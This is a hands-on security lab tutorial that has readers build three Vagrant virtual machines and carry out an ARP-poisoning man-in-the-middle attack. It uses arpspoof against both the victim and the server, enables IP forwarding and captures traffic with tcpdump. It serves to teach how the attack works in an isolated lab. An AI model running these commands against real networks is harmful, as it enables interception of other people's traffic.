

= ARP Poisoning for Man-in-the-Middle Attacks

Address Resolution Protocol (ARP) is used to map IP addresses to MAC (hardware) addresses. The ARP protocol works at the data link layer, such as when computers communicate directly with other computers connected to a switch. Computers, switches, and routers maintain caches of IP addresses and the hardware addresses associated with those IP addresses to facilitate communication. The ARP protocol can be attacked so that traffic can be redirected.

In this lab, you will execute a man-in-the-middle attack using ARP poisoning.

== Prerequisites

* VirtualBox installed with 64 bit operating support enabled
* Vagrant installed
* SSH available from the command line
* An Internet connection

== Lab Overview

In this exercise, there will be three virtual machines.

1. Victim. 192.168.10.10. This virtural machine just wants to connect to the server.
2. Middle. 192.168.10.50. This is the machine that will be executing the attack between the victim and the server.
3. Server. 192.168.10.100. This machine only exists to respond to ping requests.

The virtual machines are only configured to use 200 MB of memory each, so running them all on your hardware should be fine.

== Start the Virtual Machines

Copy the following text to a file. Save it in a new folder with the name `Vagrantfile`. Be sure that you do not save the file as Vagrantfile`.txt`.

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|

config.vm.provision "shell", inline: "echo Starting victim, middle, and server"

config.vm.provider "virtualbox" do |v|
v.memory = 200
end

config.vm.define "victim" do |victim|
victim.vm.box = "ubuntu/trusty64"
victim.vm.host_name = "victim"
victim.vm.network "private_network", ip: "192.168.10.10"
victim.vm.box_check_update = false
end

config.vm.define "middle" do |middle|
middle.vm.box = "ubuntu/trusty64"
middle.vm.host_name = "middle"
middle.vm.network "private_network", ip: "192.168.10.50"
middle.vm.box_check_update = false
end

config.vm.define "server" do |server|
server.vm.box = "ubuntu/trusty64"
server.vm.host_name = "server"
server.vm.network "private_network", ip: "192.168.10.100"
server.vm.box_check_update = false
end
  
end
```

* Open a command prompt and navigate to the folder where you put `Vagrantfile`.
* Run `vagrant up` to bring up `3` virtual machines.
* Open `four` more command prompts and go to the folder where you put `Vagrantfile`. For example, I put `Vagrantfile` in `C:\temp\arp`. In the following screenshot, you can see that four command prompts are open.
+

* In the first command prompt, run `color 02` to change the font color to green. (Think green=good). This command window will connect to the victim who just wants to get her work done.
+
```
color 02
```
* In the remaining three command prompts run `color 04` to change the font color to red (think red=rogue).
* In the green command prompt, run the following command to connect.
+
```
vagrant ssh victim
```
* In the three red command prompts, run the following command to connect.
+
```
vagrant ssh middle
```
* In the victim (green) termina, ping the server and leave the ping running.
+
```
ping 192.168.10.100
```
* In a red (middle/attacker) terminal, run `ifconfig`. Notice that there are two network adapters. One network adapter on the 10.0.2.0/24 network will give  you internet access. The 192.168.10.0/24 network will allow you to communicate between the virtual machines.

== Install Arpspoof

In your the first red command prompt, run the following command to install the `arpspoof` utility.

```
sudo apt-get install dsniff
```

Press `y` to accept the installation.

== Using Arpspoof

The syntax is `arpspoof -i [interface] -t [target] host`. You will need to poison both the victim and the server.

Run the following command in one of the atacker command prompts.

```
sudo arpspoof -i eth1 -t 192.168.10.100 192.168.10.10
```

In another command prompt, run the following command to poison the other host.

```
sudo arpspoof -i eth1 -t 192.168.10.10 192.168.10.100
```

The pings should stop. Traffic is being directed through the middle computer, but the requests are not being forwarded. The attacker is now the man in the middle.

```
sudo su
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Running `sudo su` simply elevates privileges. Running `echo 1 > /proc/sys/net/ipv4/ip_forward` changes the file names `ip_forward` so that it contains a `1` instead of a `0`. This tells the attacker to forward packets that are not destined for it.

As soon as forwarding is turned on, the ping requests should begin to succeed again.

== Challenge

* Use `tcpdump` to view the traffic on the 192.168.10. network while you manipulate the ARP caches. The current setup gives each of the virtual machines two network interfaces. You should monitor the `eth1` interface.
+
```
sudo tcpdump -i eth1
```

== Cleanup

* Exit from all SSH sessions.
* Run `vagrant destroy` to delete the three virtual machines.